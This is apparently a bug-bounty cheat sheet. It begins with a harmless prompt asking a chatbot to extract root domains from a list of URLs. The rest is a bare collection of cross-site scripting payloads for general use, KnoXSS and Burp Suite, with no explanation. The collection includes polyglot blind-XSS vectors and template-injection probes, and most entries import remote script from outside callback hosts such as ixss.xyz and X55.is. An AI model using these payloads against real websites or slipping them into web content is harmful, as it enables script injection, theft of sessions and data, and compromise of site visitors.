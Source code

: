 ```
Hey, I will paste a large amount of text containing URLs, domains, wildcards (e.g. *.example.com), and subdomains (e.g. blog.example.com).

Your task is to:
- Extract only the **root/base domains** (e.g. example.com) from subdomains, wildcards, ports, paths, and query strings.
- Remove duplicates — each root domain should appear only once.
- Output the result as a **sorted list inside a single code block**, with one domain per line.
- Do not include any explanation or extra text — only the clean list of domains inside the code block.
- Make sure you print only root damain, no subdomain. Okay?

Now wait for my input.
```

## General Payload Collection:
```bash
"><img src=x onerror=alert(1)>
```
```bash
-->';"><img src=x onerror=import('//ixss.xyz')>//
```
```bash
-->';"><script src=//ixss.xyz></script><x="
```
```bash
"><img/src/onerror=import('//ixss.xyz')>
```
```bash
$.getScript("//ixss.xyz")
```
```bash
{{_openBlock.constructor('import("//ixss.xyz")')()}}{{constructor.constructor('import("//ixss.xyz")')()}}
```
```bash
javascript:import('//ixss.xyz')
```
```bash
javascript:eval('var a=document.createElement(\'script\');a.src=\'//ixss.xyz\';document.body.appendChild(a)')
```
```bash
';"/><h1>test{{7*7}}
```
```bash
HTML<h1>HTML&gt;h1&lt;Test{{7*7}}[[7*7]]
```

## KnoXSS
>Blind XSS Custom Vector - Short Polyglot (HTML & JS Main Cases)
```
'/*\'/*"/*\"/*</Script><Input/AutoFocus/OnFocus=/**/(import(/https:\\X55.is?1=19473/.source))//>
```
>Blind XSS Custom Vector - Full Polyglot (20+ XSS Cases): Best, for non-restricted inputs.

```
JavaScript://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(import(/https:\\X55.is?1=19473/.source))}//\76-->
```

## Burpsuite Payloads:
```
bxss
```
```
';\"><script src=//ixss.xyz></script><x=\"
```
```
';\"><img src onerror=import('//ixss.xyz')>
```
```
htmli
```
```
\"/><h1>test{{7*7}}[[7*7]]
```
